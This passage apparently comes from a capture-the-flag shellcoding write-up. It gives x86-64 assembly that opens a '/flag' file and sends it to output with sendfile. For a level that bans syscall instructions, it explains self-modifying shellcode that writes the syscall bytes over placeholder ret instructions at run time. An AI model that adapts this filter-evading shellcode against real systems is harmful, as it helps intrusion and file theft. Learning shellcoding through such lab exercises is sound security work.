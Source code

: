 ```assembly
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  xor %rdx, %rdx
  xor %r10, %r10
  movw $1000, %r10w
  syscall

flag: .ascii "/flag"
```

#### 5
Shit, now we can't even use syscalls, we need to dynamically override the shellcode. What we need to do is, we first need to allocate space in our code for the syscalls using two `ret`instructions. (each `ret` is 1 byte while each `syscall` is 2). Than, we can just overwrite the addresses relative to `%rip`.

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  movq $2, %rax
  leaq flag(%rip), %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret
  
  movq %rax, %rsi
  movq $40, %rax
  movq $1, %rdi

  xor %rdx, %rdx
  movq $1000, %r10

  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret

flag: .asciz "/flag"
```
